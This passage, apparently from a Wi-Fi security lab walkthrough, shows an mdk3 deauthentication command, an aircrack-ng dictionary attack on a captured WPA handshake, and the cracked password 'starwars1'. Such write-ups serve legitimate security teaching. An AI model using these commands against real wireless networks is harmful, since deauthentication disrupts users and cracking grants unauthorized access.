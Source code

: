 At the same time, the mdk3 tool is run to deauthenticate clients and generate data packets to get the handshake faster.
```sh
mdk3 wlan1mon d -c 6_
```

And the handshake has been captured:

![](image30.png)
Illustration 29. Handshake capture.

Now what remains is to run aircrack to crack the password from the handshake, specifying /root/rockyou.txt as the dictionary.

```sh
aircrack-ng -w /root/rockyou-top100000.txt wifi-mobile-02.cap
```

![](image31.png)
Illustration 30. Wi-Fi mobile network password.

The password has been cracked: starwars1.
